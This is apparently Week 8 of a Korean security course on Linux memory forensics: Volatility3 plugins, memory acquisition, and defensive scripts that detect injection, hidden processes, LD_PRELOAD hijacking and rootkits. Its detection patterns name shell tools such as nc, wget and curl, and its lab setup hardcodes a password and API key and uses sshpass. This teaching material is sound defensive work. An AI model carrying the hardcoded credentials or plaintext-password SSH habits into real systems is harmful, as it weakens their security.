

# Week 08: 메모리 포렌식

## 학습 목표
- Volatility3를 사용하여 Linux 메모리 덤프를 분석할 수 있다
- 메모리에서 프로세스 인젝션, 숨겨진 프로세스를 탐지할 수 있다
- 루트킷의 메모리 흔적을 식별할 수 있다
- 메모리 덤프를 수집하고 분석하는 포렌식 절차를 수행할 수 있다
- 메모리 포렌식 결과를 인시던트 대응에 활용할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:50 | 메모리 포렌식 이론 + Volatility3 (Part 1) | 강의 |
| 0:50-1:30 | 메모리 수집 + 프로세스 분석 (Part 2) | 강의/데모 |
| 1:30-1:40 | 휴식 | - |
| 1:40-2:30 | 악성 프로세스 탐지 실습 (Part 3) | 실습 |
| 2:30-3:10 | 루트킷 탐지 + 인시던트 연계 (Part 4) | 실습 |
| 3:10-3:20 | 정리 + 과제 안내 | 정리 |

---

## 용어 해설

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **메모리 포렌식** | Memory Forensics | RAM 내용을 분석하여 증거를 찾는 기법 | 범인의 머릿속을 읽는 것 |
| **Volatility** | Volatility Framework | 메모리 포렌식 분석 프레임워크 | 메모리 현미경 |
| **메모리 덤프** | Memory Dump | RAM 전체 내용을 파일로 저장한 것 | 뇌 스캔 이미지 |
| **프로세스 인젝션** | Process Injection | 정상 프로세스에 악성 코드를 주입 | 음식에 독 넣기 |
| **루트킷** | Rootkit | 시스템에 숨어 탐지를 회피하는 악성코드 | 투명인간 |
| **VAD** | Virtual Address Descriptor | 프로세스의 가상 메모리 영역 정보 | 프로세스의 방 배치도 |
| **커널 모듈** | Kernel Module | 커널에 로드되는 코드 모듈 | 운영체제의 플러그인 |
| **syscall** | System Call | 사용자 공간에서 커널 기능을 호출 | 민원 접수 창구 |

---

# Part 1: 메모리 포렌식 이론 + Volatility3 (50분)

## 1.1 메모리 포렌식이란?

메모리 포렌식은 **시스템 RAM의 내용을 캡처하고 분석하여 실행 중인 프로세스, 네트워크 연결, 암호화 키, 악성코드 등의 증거를 확보**하는 기법이다.

### 왜 메모리 포렌식이 필요한가?

```
[디스크 포렌식의 한계]

악성코드가 디스크에 파일을 남기지 않는 경우:
  - Fileless 악성코드 (메모리에서만 실행)
  - 프로세스 인젝션 (정상 프로세스 내부에서 실행)
  - 실행 후 자체 삭제
  - 암호화된 페이로드 (디스크에서는 판독 불가)

→ 디스크만 보면 "아무것도 없다"
→ 메모리를 보면 "악성 코드가 실행 중이다"

[메모리에서만 찾을 수 있는 것]
  - 복호화된 악성 페이로드
  - 실행 중인 프로세스의 명령줄
  - 활성 네트워크 연결
  - 입력된 비밀번호/암호화 키
  - 루트킷이 숨긴 프로세스
  - 프로세스 인젝션 흔적
```

## 1.2 Volatility3 개요

```
[Volatility3 아키텍처]

Memory Dump (.raw, .lime, .vmem)
        |
        v
+---[Volatility3 Framework]---+
|                               |
|  [Autodetection]              |
|   → OS 버전 자동 감지         |
|   → 심볼 테이블 매핑          |
|                               |
|  [Plugins]                    |
|   → linux.pslist (프로세스)   |
|   → linux.pstree (트리)      |
|   → linux.netstat (네트워크) |
|   → linux.bash (히스토리)    |
|   → linux.lsmod (모듈)      |
|   → linux.malfind (악성코드) |
|   → linux.check_syscall     |
|                               |
|  [Output]                     |
|   → 텍스트, JSON, CSV        |
+-------------------------------+
```

### 주요 Volatility3 플러그인 (Linux)

| 플러그인 | 설명 | 용도 |
|----------|------|------|
| `linux.pslist` | 프로세스 목록 | 실행 중인 프로세스 확인 |
| `linux.pstree` | 프로세스 트리 | 부모-자식 관계 확인 |
| `linux.bash` | Bash 히스토리 | 실행된 명령어 확인 |
| `linux.netstat` | 네트워크 연결 | 활성 연결 확인 |
| `linux.lsmod` | 커널 모듈 | 로드된 모듈 확인 |
| `linux.malfind` | 악성코드 탐지 | 의심스러운 메모리 영역 |
| `linux.check_syscall` | 시스콜 후킹 | 루트킷 탐지 |
| `linux.proc.Maps` | 메모리 맵 | 프로세스 메모리 레이아웃 |
| `linux.elfs` | ELF 추출 | 메모리에서 바이너리 추출 |
| `linux.envvars` | 환경변수 | 프로세스 환경변수 확인 |

## 1.3 메모리 수집 방법

### Linux 메모리 수집 도구

```
[LiME (Linux Memory Extractor)]
  가장 널리 사용되는 Linux 메모리 수집 도구
  커널 모듈 형태로 동작
  
  # 설치 및 사용
  git clone https://github.com/504ensicsLabs/LiME
  cd LiME/src && make
  sudo insmod lime-$(uname -r).ko "path=/tmp/memdump.lime format=lime"

[/dev/mem 또는 /proc/kcore]
  직접 접근 (보안상 제한적)
  
  # /proc/kcore 복사 (일부 시스템)
  sudo cp /proc/kcore /tmp/kcore_dump

[AVML (Acquire Volatile Memory for Linux)]
  Microsoft의 메모리 수집 도구
  
  sudo ./avml /tmp/memdump.raw

[dd 기반 (제한적)]
  sudo dd if=/dev/mem of=/tmp/memdump.raw bs=1M
  # 최신 커널에서는 보안상 제한됨
```

### 수집 시 주의사항

```
[메모리 수집 원칙]

1. 최소 침해
   → 수집 도구 자체가 메모리를 변경하므로 최소화
   → 네트워크 마운트 사용 (로컬 디스크 쓰기 최소화)

2. 해시 기록
   → 수집 즉시 SHA-256 해시 생성
   → 수집 로그(시각, 도구, 담당자) 기록

3. 우선순위
   → 메모리 > 디스크 > 네트워크 (휘발성 순)
   → RFC 3227 (Evidence Collection Order)

4. 실행 환경 기록
   → uname -a, uptime, date
   → 수집 전후 프로세스 목록
```

---

# Part 2: 메모리 수집 + 프로세스 분석 (40분)

## 2.1 실습 환경 메모리 정보 수집

> **실습 목적**: 라이브 시스템에서 메모리 관련 정보를 수집하여 포렌식 분석의 기초를 다진다.
>
> **배우는 것**: /proc 파일시스템 활용, 프로세스 메모리 맵 분석

```bash
# 메모리 정보 수집 (라이브 분석)
cat << 'SCRIPT' > /tmp/mem_collect.sh
#!/bin/bash
echo "============================================"
echo "  메모리 포렌식 정보 수집"
echo "  서버: $(hostname) / $(date)"
echo "============================================"

echo ""
echo "=== 1. 시스템 정보 ==="
uname -a
echo "Uptime: $(uptime)"
echo "Memory: $(free -h | grep Mem | awk '{print $2, "total,", $3, "used,", $4, "free"}')"

echo ""
echo "=== 2. 프로세스 목록 (메모리 사용 상위) ==="
ps aux --sort=-%mem | head -15

echo ""
echo "=== 3. /proc/meminfo 요약 ==="
grep -E "MemTotal|MemFree|MemAvailable|Buffers|Cached|SwapTotal|SwapFree" /proc/meminfo

echo ""
echo "=== 4. 커널 모듈 ==="
lsmod | head -20

echo ""
echo "=== 5. 프로세스별 메모리 맵 (상위 프로세스) ==="
TOP_PID=$(ps aux --sort=-%mem | awk 'NR==2{print $2}')
TOP_PROC=$(ps aux --sort=-%mem | awk 'NR==2{print $11}')
echo "상위 프로세스: PID=$TOP_PID ($TOP_PROC)"
cat /proc/$TOP_PID/maps 2>/dev/null | head -20

echo ""
echo "=== 6. 삭제된 파일을 참조하는 프로세스 ==="
ls -la /proc/*/exe 2>/dev/null | grep "(deleted)" | head -10 || echo "(없음)"

echo ""
echo "=== 7. /dev/shm 내용 (공유 메모리) ==="
ls -la /dev/shm/ 2>/dev/null | head -10
SCRIPT

bash /tmp/mem_collect.sh
```

> **결과 해석**: 삭제된 바이너리를 참조하는 프로세스가 있다면 악성코드가 실행 후 자체 삭제한 것일 수 있다. /dev/shm에 실행 파일이 있으면 파일리스 공격 의심.

## 2.2 프로세스 메모리 심화 분석

```bash
# 특정 프로세스의 메모리 상세 분석
cat << 'SCRIPT' > /tmp/proc_memory_analysis.py
#!/usr/bin/env python3
"""프로세스 메모리 분석 (라이브)"""
import os
import re

def analyze_process(pid):
    """특정 PID의 메모리 맵 분석"""
    print(f"\n=== PID {pid} 메모리 분석 ===")
    
    # 프로세스 정보
    try:
        with open(f'/proc/{pid}/comm') as f:
            name = f.read().strip()
        with open(f'/proc/{pid}/cmdline') as f:
            cmdline = f.read().replace('\x00', ' ').strip()
        with open(f'/proc/{pid}/status') as f:
            status = f.read()
        
        print(f"이름: {name}")
        print(f"명령줄: {cmdline[:80]}")
        
        # 메모리 사용량
        vm_rss = re.search(r'VmRSS:\s+(\d+)', status)
        vm_size = re.search(r'VmSize:\s+(\d+)', status)
        if vm_rss:
            print(f"RSS: {int(vm_rss.group(1)):,} kB")
        if vm_size:
            print(f"Virtual: {int(vm_size.group(1)):,} kB")
    except Exception as e:
        print(f"접근 불가: {e}")
        return
    
    # 메모리 맵 분석
    try:
        with open(f'/proc/{pid}/maps') as f:
            maps = f.readlines()
        
        regions = {"executable": 0, "writable": 0, "shared": 0, "anonymous": 0}
        suspicious = []
        
        for line in maps:
            parts = line.strip().split()
            perms = parts[1] if len(parts) > 1 else ""
            path = parts[-1] if len(parts) > 5 else "[anonymous]"
            
            if 'x' in perms:
                regions["executable"] += 1
            if 'w' in perms:
                regions["writable"] += 1
            if 's' in perms:
                regions["shared"] += 1
            if path == "":
                regions["anonymous"] += 1
            
            # 의심스러운 패턴
            if 'x' in perms and 'w' in perms:
                suspicious.append(f"  RWX: {line.strip()[:70]}")
            if '/tmp/' in path or '/dev/shm/' in path:
                suspicious.append(f"  TMP: {line.strip()[:70]}")
        
        print(f"\n메모리 영역: exec={regions['executable']}, "
              f"write={regions['writable']}, anon={regions['anonymous']}")
        
        if suspicious:
            print(f"\n[경고] 의심스러운 메모리 영역 ({len(suspicious)}건):")
            for s in suspicious[:5]:
                print(s)
        else:
            print("\n[정상] 의심스러운 메모리 영역 없음")
    except:
        print("메모리 맵 읽기 실패")

# 상위 5개 프로세스 분석
import subprocess
result = subprocess.run(['ps', 'aux', '--sort=-%mem'], capture_output=True, text=True)
lines = result.stdout.strip().split('\n')[1:6]

for line in lines:
    pid = line.split()[1]
    analyze_process(pid)
SCRIPT

python3 /tmp/proc_memory_analysis.py
```

> **배우는 것**: RWX(읽기+쓰기+실행) 권한이 있는 메모리 영역은 프로세스 인젝션의 강력한 지표다. /tmp이나 /dev/shm에서 로드된 라이브러리도 의심 대상이다.

---

# Part 3: 악성 프로세스 탐지 실습 (50분)

## 3.1 프로세스 이상 탐지

```bash
cat << 'SCRIPT' > /tmp/detect_malicious_process.sh
#!/bin/bash
echo "============================================"
echo "  악성 프로세스 탐지"
echo "  서버: $(hostname) / $(date)"
echo "============================================"

echo ""
echo "--- 1. 프로세스 트리에서 비정상 부모-자식 관계 ---"
ps -eo pid,ppid,user,comm --forest | while read pid ppid user comm; do
    # 웹서버에서 셸 실행
    if echo "$comm" | grep -qE "^(bash|sh|dash|zsh|python|perl|ruby|nc)$"; then
        parent_comm=$(ps -p "$ppid" -o comm= 2>/dev/null)
        if echo "$parent_comm" | grep -qE "apache|nginx|httpd|node|java|tomcat"; then
            echo "  [경고] $parent_comm(PID:$ppid) → $comm(PID:$pid) by $user"
        fi
    fi
done

echo ""
echo "--- 2. 숨겨진 프로세스 (ps vs /proc 비교) ---"
PS_PIDS=$(ps -eo pid --no-headers | sort -n)
PROC_PIDS=$(ls -d /proc/[0-9]* 2>/dev/null | sed 's|/proc/||' | sort -n)
HIDDEN=$(comm -13 <(echo "$PS_PIDS") <(echo "$PROC_PIDS"))
if [ -n "$HIDDEN" ]; then
    echo "  [경고] 숨겨진 프로세스 PID: $HIDDEN"
else
    echo "  [정상] 숨겨진 프로세스 없음"
fi

echo ""
echo "--- 3. 환경변수 LD_PRELOAD 검사 ---"
for pid in $(ls /proc/ | grep -E '^[0-9]+$' | head -50); do
    environ=$(cat /proc/$pid/environ 2>/dev/null | tr '\0' '\n' | grep "LD_PRELOAD")
    if [ -n "$environ" ]; then
        comm=$(cat /proc/$pid/comm 2>/dev/null)
        echo "  [경고] PID $pid ($comm): $environ"
    fi
done
echo "  검사 완료"

echo ""
echo "--- 4. 비정상 네트워크 연결을 가진 프로세스 ---"
ss -tnp 2>/dev/null | grep ESTAB | while read state recv send local remote proc; do
    # 외부 연결
    remote_ip=$(echo "$remote" | rev | cut -d: -f2- | rev)
    if ! echo "$remote_ip" | grep -qE "^10\.|^172\.|^192\.168\.|^127\."; then
        pid=$(echo "$proc" | grep -oP 'pid=\K\d+')
        if [ -n "$pid" ]; then
            comm=$(ps -p "$pid" -o comm= 2>/dev/null)
            echo "  $comm(PID:$pid) → $remote"
        fi
    fi
done

echo ""
echo "--- 5. 메모리 기반 실행 (memfd_create) ---"
ls -la /proc/*/exe 2>/dev/null | grep "memfd:" | while read line; do
    pid=$(echo "$line" | grep -oP '/proc/\K\d+')
    comm=$(cat /proc/$pid/comm 2>/dev/null)
    echo "  [경고] memfd 실행: PID $pid ($comm)"
done
echo "  검사 완료"
SCRIPT

bash /tmp/detect_malicious_process.sh
```

> **결과 해석**:
> - 웹서버→셸: 웹셸 실행 가능성 (즉시 조사)
> - 숨겨진 프로세스: 루트킷 가능성 (긴급)
> - LD_PRELOAD: 라이브러리 하이재킹 (심각)
> - memfd: 파일리스 실행 (고도 위협)

## 3.2 Volatility3 사용법 (교육용 시뮬레이션)

```bash
cat << 'SCRIPT' > /tmp/vol3_simulation.py
#!/usr/bin/env python3
"""Volatility3 분석 시뮬레이션 (교육용)"""

print("=" * 60)
print("  Volatility3 Linux 플러그인 사용법")
print("=" * 60)

plugins = {
    "linux.pslist.PsList": {
        "설명": "프로세스 목록 출력",
        "명령": "vol -f memdump.lime linux.pslist.PsList",
        "분석": "PID, PPID, UID, 실행 파일명 확인",
        "의심": "비정상 PID 간격, 알 수 없는 프로세스명",
    },
    "linux.pstree.PsTree": {
        "설명": "프로세스 트리 구조",
        "명령": "vol -f memdump.lime linux.pstree.PsTree",
        "분석": "부모-자식 관계 확인",
        "의심": "apache→bash, sshd→python 등 비정상 관계",
    },
    "linux.bash.Bash": {
        "설명": "Bash 명령 히스토리 추출",
        "명령": "vol -f memdump.lime linux.bash.Bash",
        "분석": "실행된 명령어 타임라인 재구성",
        "의심": "wget, curl, nc, base64 등 공격 도구 사용",
    },
    "linux.netstat.Netstat": {
        "설명": "네트워크 연결 목록",
        "명령": "vol -f memdump.lime linux.netstat.Netstat",
        "분석": "활성 TCP/UDP 연결 확인",
        "의심": "외부 IP로의 비표준 포트 연결, C2 통신",
    },
    "linux.lsmod.Lsmod": {
        "설명": "로드된 커널 모듈",
        "명령": "vol -f memdump.lime linux.lsmod.Lsmod",
        "분석": "커널 모듈 목록과 크기 확인",
        "의심": "알 수 없는 모듈, 비정상 크기",
    },
    "linux.malfind.Malfind": {
        "설명": "악성코드 탐지 (의심 메모리 영역)",
        "명령": "vol -f memdump.lime linux.malfind.Malfind",
        "분석": "RWX 권한, 인젝션 흔적 확인",
        "의심": "실행+쓰기 권한이 동시에 있는 익명 영역",
    },
    "linux.check_syscall.Check_syscall": {
        "설명": "시스콜 테이블 후킹 탐지",
        "명령": "vol -f memdump.lime linux.check_syscall.Check_syscall",
        "분석": "시스콜 핸들러 주소가 정상 범위인지 확인",
        "의심": "커널 코드 영역 밖의 핸들러 주소",
    },
}

for name, info in plugins.items():
    print(f"\n--- {name} ---")
    print(f"  설명: {info['설명']}")
    print(f"  명령: {info['명령']}")
    print(f"  분석: {info['분석']}")
    print(f"  의심: {info['의심']}")

print("\n=== Volatility3 설치 ===")
print("pip install volatility3")
print("vol -h  # 도움말")
print("vol -f <dump> <plugin>  # 기본 실행")
SCRIPT

python3 /tmp/vol3_simulation.py
```

## 3.3 프로세스 인젝션 탐지 (라이브)

```bash
cat << 'SCRIPT' > /tmp/detect_injection.py
#!/usr/bin/env python3
"""프로세스 인젝션 탐지 (라이브 분석)"""
import os
import re

def check_injection(pid):
    """PID의 메모리 맵에서 인젝션 흔적 검색"""
    findings = []
    try:
        with open(f'/proc/{pid}/maps') as f:
            for line in f:
                parts = line.strip().split()
                if len(parts) < 6:
                    continue
                addr_range = parts[0]
                perms = parts[1]
                path = parts[-1] if len(parts) > 5 else ""
                
                # RWX 익명 메모리 (인젝션의 강력한 지표)
                if 'r' in perms and 'w' in perms and 'x' in perms:
                    if not path or path == '[stack]' or path == '[heap]':
                        continue  # stack/heap은 일부 정상
                    if '/lib/' not in path and '/usr/' not in path:
                        findings.append(f"RWX 비정상: {addr_range} {perms} {path}")
                
                # 삭제된 파일에서 로드된 라이브러리
                if '(deleted)' in line:
                    findings.append(f"삭제된 매핑: {line.strip()[:60]}")
                
                # /tmp, /dev/shm에서 로드된 실행 코드
                if ('x' in perms) and ('/tmp/' in path or '/dev/shm/' in path):
                    findings.append(f"TMP 실행: {path}")
                    
    except (PermissionError, FileNotFoundError):
        pass
    
    return findings

print("=" * 60)
print("  프로세스 인젝션 탐지 스캔")
print("=" * 60)

total_checked = 0
total_suspicious = 0

for pid_dir in sorted(os.listdir('/proc')):
    if not pid_dir.isdigit():
        continue
    
    pid = pid_dir
    findings = check_injection(pid)
    total_checked += 1
    
    if findings:
        total_suspicious += 1
        try:
            comm = open(f'/proc/{pid}/comm').read().strip()
        except:
            comm = "?"
        print(f"\n[의심] PID {pid} ({comm}):")
        for f in findings:
            print(f"  - {f}")

print(f"\n검사 완료: {total_checked}개 프로세스 중 {total_suspicious}개 의심")
if total_suspicious == 0:
    print("[정상] 프로세스 인젝션 흔적 없음")
SCRIPT

python3 /tmp/detect_injection.py
```

> **트러블슈팅**:
> - "Permission denied" → root 권한으로 실행 필요
> - 정상 프로세스도 표시될 수 있음 → JIT 컴파일러(Java, Node.js)는 RWX를 사용할 수 있음

---

# Part 4: 루트킷 탐지 + 인시던트 연계 (40분)

## 4.1 루트킷 흔적 탐지

```bash
cat << 'SCRIPT' > /tmp/detect_rootkit.sh
#!/bin/bash
echo "============================================"
echo "  루트킷 탐지 점검"
echo "  서버: $(hostname) / $(date)"
echo "============================================"

echo ""
echo "--- 1. 커널 모듈 이상 점검 ---"
LOADED=$(lsmod | awk 'NR>1{print $1}' | sort)
BUILTIN=$(cat /lib/modules/$(uname -r)/modules.builtin 2>/dev/null | \
  sed 's|.*/||;s|\.ko.*||' | sort)

echo "로드된 모듈 수: $(echo "$LOADED" | wc -w)"
echo "알 수 없는 모듈:"
for mod in $LOADED; do
    if ! modinfo "$mod" &>/dev/null; then
        echo "  [경고] $mod (modinfo 실패)"
    fi
done

echo ""
echo "--- 2. 시스콜 테이블 점검 ---"
# /proc/kallsyms에서 시스콜 테이블 주소 확인
if [ -r /proc/kallsyms ]; then
    echo "sys_call_table 주소:"
    grep "sys_call_table" /proc/kallsyms 2>/dev/null | head -3
else
    echo "  (kallsyms 접근 불가 - kptr_restrict)"
fi

echo ""
echo "--- 3. /etc/ld.so.preload 점검 ---"
if [ -f /etc/ld.so.preload ]; then
    echo "  [경고] ld.so.preload 존재!"
    cat /etc/ld.so.preload
else
    echo "  [정상] ld.so.preload 없음"
fi

echo ""
echo "--- 4. 숨겨진 파일 점검 (. 접두사 비정상) ---"
find /tmp /var/tmp /dev/shm -name ".*" -type f 2>/dev/null | head -10

echo ""
echo "--- 5. chkrootkit/rkhunter 존재 확인 ---"
which chkrootkit 2>/dev/null && echo "chkrootkit 설치됨" || echo "chkrootkit 미설치"
which rkhunter 2>/dev/null && echo "rkhunter 설치됨" || echo "rkhunter 미설치"

echo ""
echo "--- 6. 네트워크 인터페이스 프로미스큐어스 모드 ---"
ip link show 2>/dev/null | grep PROMISC && echo "  [경고] 프로미스큐어스 모드!" || echo "  [정상] 프로미스큐어스 모드 아님"
SCRIPT

bash /tmp/detect_rootkit.sh

echo ""
echo "=== 원격 서버 점검 ==="
for server in "ccc@10.20.30.1" "ccc@10.20.30.80"; do
    echo ""
    echo "--- $server ---"
    sshpass -p1 ssh -o ConnectTimeout=5 "$server" 'bash -s' < /tmp/detect_rootkit.sh 2>/dev/null | \
      grep -E "\[경고\]|\[정상\]|루트킷"
done
```

## 4.2 메모리 포렌식 + 인시던트 대응 워크플로우

```bash
cat << 'SCRIPT' > /tmp/mem_forensics_workflow.py
#!/usr/bin/env python3
"""메모리 포렌식 인시던트 대응 워크플로우"""

workflow = [
    {
        "단계": "1. 메모리 수집",
        "도구": "LiME / AVML",
        "명령": [
            "sudo insmod lime.ko 'path=/evidence/memdump.lime format=lime'",
            "sha256sum /evidence/memdump.lime > /evidence/memdump.lime.sha256",
        ],
        "주의": "수집 중 시스템 변경 최소화",
    },
    {
        "단계": "2. 프로세스 분석",
        "도구": "Volatility3 linux.pslist, linux.pstree",
        "명령": [
            "vol -f memdump.lime linux.pslist.PsList",
            "vol -f memdump.lime linux.pstree.PsTree",
        ],
        "주의": "비정상 부모-자식 관계, 알 수 없는 프로세스 확인",
    },
    {
        "단계": "3. 네트워크 분석",
        "도구": "Volatility3 linux.netstat",
        "명령": [
            "vol -f memdump.lime linux.netstat.Netstat",
        ],
        "주의": "C2 통신, 외부 연결, 비표준 포트 확인",
    },
    {
        "단계": "4. 악성코드 탐지",
        "도구": "Volatility3 linux.malfind",
        "명령": [
            "vol -f memdump.lime linux.malfind.Malfind",
            "vol -f memdump.lime linux.elfs.Elfs --pid <PID>",
        ],
        "주의": "RWX 메모리, 인젝션 흔적, 의심 바이너리 추출",
    },
    {
        "단계": "5. 루트킷 점검",
        "도구": "Volatility3 linux.check_syscall, linux.lsmod",
        "명령": [
            "vol -f memdump.lime linux.check_syscall.Check_syscall",
            "vol -f memdump.lime linux.lsmod.Lsmod",
        ],
        "주의": "시스콜 후킹, 숨겨진 모듈 확인",
    },
    {
        "단계": "6. 증거 추출",
        "도구": "Volatility3 linux.bash, linux.envvars",
        "명령": [
            "vol -f memdump.lime linux.bash.Bash",
            "vol -f memdump.lime linux.envvars.Envvars --pid <PID>",
        ],
        "주의": "공격자 명령 히스토리, 환경변수 수집",
    },
]

print("=" * 60)
print("  메모리 포렌식 인시던트 대응 워크플로우")
print("=" * 60)

for step in workflow:
    print(f"\n--- {step['단계']} ---")
    print(f"  도구: {step['도구']}")
    for cmd in step['명령']:
        print(f"  $ {cmd}")
    print(f"  주의: {step['주의']}")
SCRIPT

python3 /tmp/mem_forensics_workflow.py
```

## 4.3 Bastion를 활용한 메모리 점검 자동화

```bash
export BASTION_API_KEY="ccc-api-key-2026"

PROJECT_ID=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "memory-forensics-check",
    "request_text": "전체 서버 메모리 포렌식 점검",
    "master_mode": "external"
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['id'])")

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/plan" \
  -H "X-API-Key: $BASTION_API_KEY"
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute" \
  -H "X-API-Key: $BASTION_API_KEY"

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "ls -la /proc/*/exe 2>/dev/null | grep -c \"deleted\" && echo DELETED_CHECK",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "test -f /etc/ld.so.preload && echo LD_PRELOAD_EXISTS || echo LD_PRELOAD_CLEAN",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.1:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }'
```

---

## 체크리스트

- [ ] 메모리 포렌식이 디스크 포렌식보다 유리한 경우를 설명할 수 있다
- [ ] Volatility3의 주요 Linux 플러그인 7개를 알고 있다
- [ ] LiME을 사용한 메모리 수집 방법을 이해한다
- [ ] 메모리 수집 시 주의사항(무결성, 해시, 우선순위)을 알고 있다
- [ ] /proc 파일시스템으로 프로세스 메모리를 분석할 수 있다
- [ ] RWX 메모리 영역이 프로세스 인젝션의 지표임을 이해한다
- [ ] 루트킷의 메모리 흔적(커널 모듈, 시스콜 후킹)을 탐지할 수 있다
- [ ] LD_PRELOAD 하이재킹을 점검할 수 있다
- [ ] 메모리 포렌식 6단계 워크플로우를 설명할 수 있다
- [ ] 메모리 포렌식 결과를 인시던트 대응에 연계할 수 있다

---

## 과제

### 과제 1: 라이브 메모리 분석 보고서 (필수)

실습 환경 전체 서버에 대해 라이브 메모리 분석을 수행하고:
1. 프로세스 인젝션 흔적 점검 결과
2. 루트킷 탐지 점검 결과
3. LD_PRELOAD / memfd 점검 결과
4. 발견 사항 및 권고 사항

### 과제 2: Volatility3 분석 계획서 (선택)

가상의 침해사고 시나리오를 설정하고:
1. 메모리 수집 계획 (도구, 절차, 주의사항)
2. 분석 계획 (사용할 플러그인, 분석 순서)
3. 예상 결과 및 대응 절차
4. 증거 보존 계획

---

## 보충: 메모리 포렌식 고급 분석 기법

### 프로세스 환경변수 분석

```bash
cat << 'SCRIPT' > /tmp/env_analysis.py
#!/usr/bin/env python3
"""프로세스 환경변수 포렌식 분석"""
import os

suspicious_vars = [
    "LD_PRELOAD", "LD_LIBRARY_PATH", "HISTFILE", "HISTSIZE",
    "http_proxy", "https_proxy", "PROMPT_COMMAND",
]

print("=" * 60)
print("  프로세스 환경변수 포렌식 분석")
print("=" * 60)

checked = 0
found = 0

for pid_dir in sorted(os.listdir('/proc')):
    if not pid_dir.isdigit():
        continue
    
    pid = pid_dir
    try:
        with open(f'/proc/{pid}/environ', 'rb') as f:
            environ = f.read().decode('utf-8', errors='ignore')
        
        env_vars = environ.split('\x00')
        comm = open(f'/proc/{pid}/comm').read().strip()
        checked += 1
        
        for var in env_vars:
            for susp in suspicious_vars:
                if var.startswith(f'{susp}='):
                    found += 1
                    print(f"\n  [경고] PID {pid} ({comm}):")
                    print(f"    {var[:80]}")
                    
                    if susp == "LD_PRELOAD":
                        print(f"    → 라이브러리 하이재킹 가능!")
                    elif susp == "HISTFILE":
                        if "/dev/null" in var:
                            print(f"    → 명령 히스토리 비활성화 (은닉 시도)!")
                    elif susp == "HISTSIZE" and "0" in var:
                        print(f"    → 히스토리 크기 0 (은닉 시도)!")
                    elif susp == "PROMPT_COMMAND":
                        print(f"    → 프롬프트 실행 후킹 가능!")
                        
    except (PermissionError, FileNotFoundError, UnicodeDecodeError):
        continue

print(f"\n검사: {checked}개 프로세스, 의심: {found}건")
if found == 0:
    print("[정상] 의심스러운 환경변수 없음")
SCRIPT

python3 /tmp/env_analysis.py
```

> **배우는 것**: HISTFILE=/dev/null이나 HISTSIZE=0은 공격자가 명령 히스토리를 남기지 않기 위한 은닉 기법이다. LD_PRELOAD는 라이브러리 인젝션의 지표다.

### 파일 디스크립터 분석

```bash
cat << 'SCRIPT' > /tmp/fd_analysis.sh
#!/bin/bash
echo "============================================"
echo "  파일 디스크립터 포렌식 분석"
echo "============================================"

echo ""
echo "--- 1. 삭제된 파일을 열고 있는 프로세스 ---"
for pid in $(ls /proc/ 2>/dev/null | grep -E '^[0-9]+$' | head -100); do
    ls -la /proc/$pid/fd 2>/dev/null | grep "(deleted)" | while read line; do
        comm=$(cat /proc/$pid/comm 2>/dev/null)
        echo "  PID $pid ($comm): $line"
    done
done | head -10
echo "  (검사 완료)"

echo ""
echo "--- 2. 네트워크 소켓을 열고 있는 프로세스 ---"
for pid in $(ls /proc/ 2>/dev/null | grep -E '^[0-9]+$' | head -50); do
    sockets=$(ls -la /proc/$pid/fd 2>/dev/null | grep -c "socket:")
    if [ "$sockets" -gt 5 ] 2>/dev/null; then
        comm=$(cat /proc/$pid/comm 2>/dev/null)
        echo "  PID $pid ($comm): 소켓 ${sockets}개"
    fi
done | head -10

echo ""
echo "--- 3. /tmp, /dev/shm 파일을 열고 있는 프로세스 ---"
for pid in $(ls /proc/ 2>/dev/null | grep -E '^[0-9]+$' | head -100); do
    tmp_fds=$(ls -la /proc/$pid/fd 2>/dev/null | grep -E "/tmp/|/dev/shm/" | head -3)
    if [ -n "$tmp_fds" ]; then
        comm=$(cat /proc/$pid/comm 2>/dev/null)
        echo "  PID $pid ($comm):"
        echo "$tmp_fds" | while read line; do echo "    $line"; done
    fi
done | head -15

echo ""
echo "--- 4. 파이프/FIFO를 사용하는 프로세스 ---"
for pid in $(ls /proc/ 2>/dev/null | grep -E '^[0-9]+$' | head -50); do
    pipes=$(ls -la /proc/$pid/fd 2>/dev/null | grep -c "pipe:")
    if [ "$pipes" -gt 10 ] 2>/dev/null; then
        comm=$(cat /proc/$pid/comm 2>/dev/null)
        echo "  PID $pid ($comm): 파이프 ${pipes}개 (프로세스간 통신)"
    fi
done | head -10
SCRIPT

bash /tmp/fd_analysis.sh
```

> **실전 활용**: 삭제된 파일의 FD가 열려있다면 공격자가 실행 후 바이너리를 삭제한 것이다. `/proc/<pid>/fd/<n>`에서 해당 파일의 내용을 복구할 수 있다:
> `cp /proc/<pid>/fd/<n> /tmp/recovered_binary`

### Volatility3 분석 자동화 스크립트

```bash
cat << 'SCRIPT' > /tmp/vol3_auto_analysis.sh
#!/bin/bash
